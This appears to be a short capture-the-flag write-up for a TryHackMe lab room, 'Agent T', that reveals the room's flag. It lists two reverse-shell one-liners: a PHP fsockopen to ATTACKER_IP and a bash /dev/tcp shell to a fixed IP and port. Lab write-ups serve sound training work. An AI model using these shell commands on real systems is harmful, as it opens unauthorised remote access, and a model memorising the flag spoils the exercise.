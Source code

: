 # Agent T

## Task 1: Find the flag

![](https://tryhackme-images.s3.amazonaws.com/room-icons/5dbc4e7d8515e7bc05b7742f26944ae9.png)

* Agent T uncovered this website, which looks innocent enough, but something seems off about how the server responds...

> (\*) After deploying the vulnerable machine attached to this task, please wait a couple of minutes for it to respond.

---

* Answer the questions below
* What is the flag?

```
flag{4127d0530abf16d6d23973e3df8dbecb}
```

---

```bash
export IP=10.10.184.78

```

> you may need to escape qoutes in order to make the expoit work


```bash

php -r '$sock=fsockopen("ATTACKER_IP",port);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```bash

'bash -c \"bash -i >& /dev/tcp/10.8.160.106/9001' 0>&1\"'
```